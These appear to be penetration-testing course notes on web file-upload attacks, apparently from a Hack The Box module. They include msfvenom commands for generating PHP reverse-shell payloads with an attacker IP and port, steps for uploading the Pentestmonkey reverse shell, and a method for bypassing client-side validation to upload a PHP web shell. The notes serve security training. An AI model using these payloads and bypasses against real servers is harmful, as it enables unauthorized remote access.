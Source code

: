### Writing Custom Scripts
   - Custom scripts can be written in the web server's language using native functions like `system()` in PHP or `eval()` in ASP.NET.
   - Use `msfvenom` for generating scripts for various languages:
     ```
     msfvenom -p payload LHOST=OUR_IP LPORT=OUR_PORT -f format > shell.ext
     ```

## Tools Overview

### Pentestmonkey
   - **What It Is**: A collection of tools and scripts designed for penetration testing, including reliable reverse shells.
   - **Key Usage**:
     - Edit `php-reverse-shell.php` to include your IP and port.
     - Upload to the vulnerable server and access its link to gain shell access.

### Msfvenom
   - **What It Is**: A Metasploit tool used to generate payloads, including reverse and bind shells, for various platforms and languages.
   - **Key Usage**:
     - Syntax:
       ```
       msfvenom -p payload LHOST=OUR_IP LPORT=OUR_PORT -f format > outputfile
       ```
     - Example for PHP:
       ```
       msfvenom -p php/reverse_php LHOST=192.168.1.10 LPORT=4444 -f raw > reverse.php
       ```
     - Payloads and formats:
       - `-p`: Specify the payload (e.g., `php/reverse_php`).
       - `-f`: Format (e.g., `raw`, `exe`, `elf`).

## Client-Side Validation

### 1. **Overview**
Many web applications rely on front-end JavaScript for file format validation. This validation prevents files that do not meet specified criteria (e.g., non-image formats) from being uploaded. However, since these validations occur on the client-side, they can be bypassed by:

- Modifying the upload request directly to interact with the server, skipping validation.
- Editing the front-end code via browser developer tools to disable or modify validations.

### 2. **Back-End Request Modification**
#### Steps to Bypass Validation:
1. **Examine the Request**: Capture an image upload request using Burp Suite.
2. **Modify the Request**:
   - Change `filename="HTB.png"` to `filename="shell.php"`.
   - Replace the file content with a PHP web shell.
3. **Send the Modified Request**:
   - Ensure that the server does not perform back-end validation.
   - If successful, the file will upload, and you can access the web shell.
